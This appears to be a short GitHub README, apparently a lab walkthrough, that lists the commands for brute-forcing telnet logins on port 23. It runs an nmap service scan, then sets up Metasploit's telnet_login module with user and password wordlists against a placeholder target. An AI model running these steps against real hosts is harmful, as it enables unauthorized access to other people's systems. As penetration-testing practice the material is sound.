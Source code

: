 # Port-23-telnet-Linux-telnet
1.nmap -sV <target>
![image](https://github.com/thanawut2903/Port-23-telnet-Linux-telnet/assets/159118913/dea1ef26-fa27-4457-b5ec-502aebd30d15)
2.msfconsole
3.msf 6 > search telnet
4.msf 6 > use auiliary/scanner/telnet/telnet_login
5.show options 
![image](https://github.com/thanawut2903/Port-23-telnet-Linux-telnet/assets/159118913/f26392b9-0330-4b89-b132-75e07ca75113)
6.msf 6 > set RHOST <target>
7.msf 6 > set user_file <path user.txt>
8.msf 6 > set pass_file <path password.txt>
9.msf 6 > set stop_on_success true
![image](https://github.com/thanawut2903/Port-23-telnet-Linux-telnet/assets/159118913/ebf68411-a4b7-4915-8029-b3334c4b66f9)
10. msf 6 > run
![image](https://github.com/thanawut2903/Port-23-telnet-Linux-telnet/assets/159118913/265bee3d-d499-4c4f-b132-d2b965dfe77a)
11.telnet <target>
![image](https://github.com/thanawut2903/Port-23-telnet-Linux-telnet/assets/159118913/9c38d3a8-1ef9-4560-a2d1-95fa6788b8e1)
